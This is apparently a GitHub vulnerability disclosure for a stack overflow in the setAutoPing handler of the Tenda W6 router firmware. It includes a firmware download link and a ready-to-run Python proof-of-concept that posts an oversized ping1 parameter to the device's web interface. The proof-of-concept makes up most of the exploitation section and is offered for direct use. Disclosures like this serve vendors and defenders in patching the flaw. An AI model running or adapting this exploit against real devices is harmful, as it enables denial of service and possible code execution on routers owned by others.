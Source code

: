 # Tenda W6 Stack Overflow Vulnerability

## Device Vulnerability Introduction 
Tenda W6 is an enterprise wireless AP router from Tenda Technology (Shenzhen, China).

A stack overflow vulnerability exists in /goform/setAutoPing in Tenda W6 V1.0.0.9(4122) version, which allows an attacker to construct ping1 parameters and ping2 parameters for a stack overflow attack. An attacker can use this vulnerability to execute arbitrary code execution.  

固件下载地址：https://www.tenda.com.cn/download/detail-2576.html

## Vulnerability Location
/goform/setAutoPing

![image-20220708124615487](pic/image-20220708124615487.png)

## Vulnerability Exploitation



![image-20220708125744014](pic/image-20220708125744014.png)



![image-20220708125935938](pic/image-20220708125935938.png)

## Exp

```python
import requests
from pwn import *
burp0_url = "http://192.168.5.1/goform/setAutoPing"
burp0_headers = {"Host":"192.168.5.1",
"Content-Length":"295",
"Accept":"*/*",
"X-Requested-With":"XMLHttpRequest",
"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36",
"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
"Origin":"http://192.168.5.1",
"Referer":"http://192.168.5.1/main.html",
"Accept-Encoding":"gzip, deflate",
"Accept-Language":"en-US,en;q=0.9",
"Cookie":"user=",
"Connection":"close"}

data1="linkEn=1"
data1+='&ping1='+'a'*0x84
data1+='&ping2=baaaaa'
requests.post(burp0_url,headers=burp0_headers,data=data1, verify=False,timeout=1)

```
[Please see the video for the demonstration process](./video/1.mp4)
